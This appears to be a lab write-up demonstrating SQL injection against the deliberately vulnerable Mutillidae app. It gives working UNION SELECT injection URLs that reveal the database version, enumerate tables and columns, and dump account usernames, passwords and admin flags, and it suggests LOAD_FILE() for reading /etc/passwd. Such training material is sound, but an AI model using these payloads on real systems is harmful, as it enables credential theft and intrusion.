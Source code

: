 http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/abinayasangeetha/sqlinjection/assets/119393675/8b1d65e5-aa47-498c-85a5-8701729430db)



The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details



The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.







The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 



Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details



## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.
